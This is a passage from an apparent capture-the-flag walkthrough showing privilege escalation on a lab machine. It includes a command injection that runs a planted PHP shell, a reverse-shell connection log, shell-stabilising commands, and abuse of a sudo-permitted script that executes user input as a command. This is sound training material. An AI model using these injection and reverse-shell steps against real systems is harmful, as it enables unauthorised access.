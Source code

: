 - Now, we need to use the `php7.2` binary from `/usr/bin` to execute the shell: `whoami;/usr/bin/php7.2 /var/tmp/shell.php`

```
connect to [{REDACTED}] from (UNKNOWN) [10.10.96.247] 44904
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:31:38 up  1:46,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data

```


```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL + Z>
stty raw -echo; fg
```

```bash
sudo -l

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

```

```bash
# content of helpline.sh

#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- the `$msg` variable is passed to `/dev/null` so we can technically write `bash -i` to spawn a shell as `apaar`.

- We can get the user flag from `/home/apaar/local.txt`
